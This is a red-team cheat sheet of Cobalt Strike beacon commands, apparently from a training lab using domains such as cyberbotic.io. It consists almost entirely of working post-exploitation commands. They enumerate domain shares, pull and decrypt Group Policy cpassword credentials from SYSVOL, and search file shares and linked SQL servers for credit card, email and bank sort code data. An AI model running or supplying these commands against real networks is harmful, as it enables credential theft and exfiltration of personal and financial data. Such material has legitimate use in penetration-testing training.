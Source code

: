 # Data Exfiltration

# Enumerate Share

    beacon> powerpick Invoke-ShareFinder
    beacon> powerpick Invoke-FileFinder
    beacon> powerpick Get-FileNetServer
    beacon> shell findstr /S /I cpassword \\dc.organicsecurity.local\sysvol\organicsecurity.local\policies\*.xml
    beacon> Get-DecryptedCpassword

# Find accessible share having juicy information

    beacon> powerpick Find-DomainShare -CheckShareAccess
    beacon> powerpick Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
    beacon> powerpick gc \\fs.dev.cyberbotic.io\finance$\export.csv | select -first 5

# Search for senstive data in directly accessible DB by keywords

    beacon> powerpick Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize

# Search for senstive data in DB links

    beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

    beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns where table_name=''employees''')"

    beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"
